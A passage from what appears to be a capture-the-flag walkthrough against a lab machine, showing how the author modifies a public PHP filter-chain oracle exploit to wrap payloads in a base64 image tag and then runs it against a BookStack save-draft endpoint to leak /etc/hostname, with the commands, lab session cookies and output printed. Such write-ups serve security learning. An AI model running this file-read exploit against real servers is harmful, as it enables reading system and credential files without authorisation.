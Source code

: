 The requested file is only passed into the dunder init function of the `Requestor` class, which is found in `filters_chain_oracle/core/requestor.py`. [At the top](https://github.com/synacktiv/php_filter_chains_oracle_exploit/blob/main/filters_chain_oracle/core/requestor.py#L11-L13) of the class, it sets `self.file_to_leak` to the input file.

That is [later](https://github.com/synacktiv/php_filter_chains_oracle_exploit/blob/main/filters_chain_oracle/core/requestor.py#L107-L109) used to generate the `filter_chain`, which is then merged into the other provided data:

```

        filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        # DEBUG print(filter_chain)
        merged_data = self.parse_parameter(filter_chain)

```

From there, it sends the request.

#### Modify POC

To make this work, I’ll need to take the `filter_chain` output, base64-encode it, and put it into an image tag. I could build my own script that implements the library, but I’ll go for the hacky solution and modify `requestor.py` by importing `b64decode` at the top of the file, and then add a line:

```

        filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        # DEBUG print(filter_chain)
        filter_chain = f"<img src='data:image/png;base64,{b64encode(filter_chain.encode()).decode()}'/>"
        merged_data = self.parse_parameter(filter_chain)

```

I’ll add the [inline meta](/cheatsheets/uv#add-meta) to the main script, and now when I run this, it gets `/etc/hostname`:

```

oxdf@hacky$ uv add --script filters_chain_oracle_exploit.py -r requirements.txt
Updated `filters_chain_oracle_exploit.py`
oxdf@hacky$ uv run filters_chain_oracle_exploit.py --verb PUT --file /etc/hostname --target http://checker.htb/ajax/page/8/save-draft --parameter html --headers '{"Cookie": "XSRF-TOKEN=eyJpdiI6IjlqMWFOTUI5U0FoTUwzODJWWS9PUmc9PSIsInZhbHVlIjoiOXArTFBZRjMzY1l2dU4zcWtxZUN2dVdvS3Jka1FvdmcrZTN0a0QwSE5Ock43eWhpMlJ1WG9VdHlDcXV6cXVVYkEwQTVpSXpITXhuZ1hLa3FqNEY2VGc0M3owbUF2VWRKUTJtMTRHUXdCb1VCOElydHlYOGxWd0cwdVJLTlBuazkiLCJtYWMiOiI2ZTdmNWY3Y2Q4Mzc1NmI2MTAzYzQ4NWQwZmE0YjE3MTZlYzc1YTEyOGU0NWNjNWEzMmM0NTY0ZTk2YTkyOTk0IiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6IldrWmZqQkk0N3A5S0dYd2NDd2lGV3c9PSIsInZhbHVlIjoiL2FSMEhXOWZMeUpkTExnUTNKYmNNck1hOG5FSFBFZGF0MmhJUFJKcXB6K0FGZFArbkZraU9LUWgvVXlINXdyRlJheWp6NEZpemdWNjVGVHpraXVwRzRkVnU4d0c4cWpKNllBMEsxYUxPLzROZkVxY1lhTEFiWmh5WHJJcmxZWE8iLCJtYWMiOiJjOTNhYzljMWRkMWQzNjVhMDVkMTM3NGU3N2FmMjI4NDE3OWRlNDcwMjVmYmQ4NTg0NDUzNjc3ZmNkNDJhYjI0IiwidGFnIjoiIn0%3D; 558fa9b1ffa04df378a1f2bb1a4cceed1e7cc9d4adbbfe21e2=157db5779ec5fdb5c1a8f3bacf00f63d4d3d22235d69f15848", "X-CSRF-TOKEN": "0ifkkNROMkGdJH6oMEH5wAth2ZQlbjAfaC9eSzax"}' 
Installed 5 packages in 10ms
[*] The following URL is targeted : http://checker.htb/ajax/page/8/save-draft
[*] The following local file is leaked : /etc/hostname
[*] Running PUT requests
[*] Additionnal headers used : {"Cookie": "XSRF-TOKEN=eyJpdiI6IjlqMWFOTUI5U0FoTUwzODJWWS9PUmc9PSIsInZhbHVlIjoiOXArTFBZRjMzY1l2dU4zcWtxZUN2dVdvS3Jka1FvdmcrZTN0a0QwSE5Ock43eWhpMlJ1WG9VdHlDcXV6cXVVYkEwQTVpSXpITXhuZ1hLa3FqNEY2VGc0M3owbUF2VWRKUTJtMTRHUXdCb1VCOElydHlYOGxWd0cwdVJLTlBuazkiLCJtYWMiOiI2ZTdmNWY3Y2Q4Mzc1NmI2MTAzYzQ4NWQwZmE0YjE3MTZlYzc1YTEyOGU0NWNjNWEzMmM0NTY0ZTk2YTkyOTk0IiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6IldrWmZqQkk0N3A5S0dYd2NDd2lGV3c9PSIsInZhbHVlIjoiL2FSMEhXOWZMeUpkTExnUTNKYmNNck1hOG5FSFBFZGF0MmhJUFJKcXB6K0FGZFArbkZraU9LUWgvVXlINXdyRlJheWp6NEZpemdWNjVGVHpraXVwRzRkVnU4d0c4cWpKNllBMEsxYUxPLzROZkVxY1lhTEFiWmh5WHJJcmxZWE8iLCJtYWMiOiJjOTNhYzljMWRkMWQzNjVhMDVkMTM3NGU3N2FmMjI4NDE3OWRlNDcwMjVmYmQ4NTg0NDUzNjc3ZmNkNDJhYjI0IiwidGFnIjoiIn0%3D; 558fa9b1ffa04df378a1f2bb1a4cceed1e7cc9d4adbbfe21e2=157db5779ec5fdb5c1a8f3bacf00f63d4d3d22235d69f15848", "X-CSRF-TOKEN": "0ifkkNROMkGdJH6oMEH5wAth2ZQlbjAfaC9eSzax"}
[+] File /etc/hostname leak is finished!
```